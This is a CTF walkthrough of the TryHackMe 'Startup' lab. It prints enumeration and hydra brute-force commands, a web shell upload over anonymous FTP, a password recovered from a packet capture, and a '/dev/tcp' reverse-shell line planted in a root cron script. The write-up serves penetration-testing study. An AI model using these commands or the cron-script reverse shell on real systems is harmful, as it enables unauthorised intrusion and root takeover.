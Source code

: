 ```yaml
---
title: Walkthrough - Startup
published: true
---
```


Abuse traditional vulnerabilities via untraditional means.

[https://tryhackme.com/room/startup](https://tryhackme.com/room/startup)

* * *

## Welcome to Spice Hut! 

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

* * * 

3 Open Ports

21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61

* * * 

## What is the secret spicy soup recipe? 

![0xskar](/assets/startup01.png)

- ``gobuster dir -u http://10.10.52.133/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php --no-error -t 100``

![0xskar](/assets/startup02.png)

- We get a username "Maya" from ``notice.txt`` try to use this with hydra to get access to ftp or ssh
- ``hydra -l maya -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.52.133 ftp``
- Upload pentestmonkey shell to /ftp via anonymous ftp
- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``cat recipe.txt`` to find our first ingredient.

* * * 

## What are the contents of user.txt?

- Our hint is something that doesnt belong...
- Python3 is installed i can ``python3 -m http.server 5000`` and download ``suspicious.pcapng`` from ``/incidents/``
- ``.pcapng`` is a packet capture dump. Can probably open in wireshark.
- checking this out can see a few things such as an attacker uploading a shell.php like me and an incorrect login attempts using ``c4ntg3t3n0ughsp1c3`` as a password....we also see ``lennie``...
- we can login as lennie! and find the flag in their home directory.

![0xskar](/assets/startup03.png)

* * * 

## What are the contents of root.txt?

- our hint is scripts and apparently root is running this in their crontab, because inserting ``sh -i >& /dev/tcp/10.2.127.225/6668 0>&1`` into ``/etc/print.sh`` and setting up a listener on my kali gets a root reverse shell.
- ``cat root.txt`` for our final flag.

* * * 